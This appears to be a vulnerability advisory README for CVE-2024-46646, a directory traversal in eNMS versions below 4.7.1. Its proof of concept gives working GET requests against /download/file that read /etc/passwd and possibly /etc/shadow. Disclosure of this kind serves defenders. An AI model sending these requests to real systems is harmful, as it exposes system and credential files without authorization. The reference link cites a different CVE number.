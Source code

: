 # **CVE-2024-46646**



# Details
* **Vulnerability Type**: eNMS < 4.7.1 Directory Traversal via /download/file
* **Affected Application**: eNMS
* **Affected Versions**: < 4.7.1
* **Affected Component**: /download/file/[DIR]/[FILE]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
##  ```GET /download/file/>[DIR]/>[FILE]```

Another vulenrable parameter was found in the request for downloading an existing file in the folders.
Using the same method explained above, you can read any file you have access to.

**v4.4.0**
```
GET /download/file/>etc/>passwd
```
**v4.7.1**
```
GET /download/file/file_transfer/../../../../etc/passwd
```

Reading ```/etc/passwd``` file:

![image](img/461.png)

Reading ```/etc/shadow``` file (depending on the process execution rights)
:

![image](img/4622.png)
# References
https://www.cve.org/CVERecord?id=CVE-2024-46644
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">
